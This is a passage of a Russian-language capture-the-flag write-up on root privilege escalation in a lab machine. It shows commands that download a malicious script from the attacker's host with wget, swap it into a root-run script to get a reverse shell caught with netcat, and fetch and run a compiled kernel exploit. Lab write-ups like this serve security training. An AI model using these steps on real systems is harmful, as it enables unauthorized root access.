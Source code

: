 **Примечание:** Замените адрес 10.10.14.28 внутри кода на ваш VPN IP.

![[Pasted image 20230704140412.png]]

Теперь загружаем вредоносный файл в директорию /tmp.

```bash
wget http://10.10.14.28/root.py
```

А затем заменяем файл test.py в директории /script на файл root.py с помощью следующей команды:

```bash
sudo -u scriptmanager cp /tmp/root.py /scripts/test.py
```

Через некоторое время появится обратное соединение в терминале, где запущен netcat, с правами суперпользователя. Завершаем задачу просмотром содержимого файла root.txt.

```
nc -lvp 1234
id
cd /root
ls
cat root.txt
```

![[Pasted image 20230704140813.png]]

Второй метод нахождения файла root.txt

Мы выяснили, что система жертвы работает на базе Ubuntu 16.04. В Гугле находим эксплоит, позволяющий получить права суперпользователя на уровне ядра. 

Сохраняем текст эксплоита в файле poc.c.

![[Pasted image 20230704140906.png]]

Компилируем файл при помощи следующей команды: 

```
gcc poc.c -o pwn
```

Запускаем Python HTTP-сервер для передачи файла на целевую систему.

![[Pasted image 20230704140930.png]]

Наконец, загружаем скомпилированный файл pwn на целевую машину при помощи wget в директорию /dev/shm, устанавливаем права доступа и запускаем эксплоит.

```
wget http://10.10.14.28/pwn
```


---

# DogCat
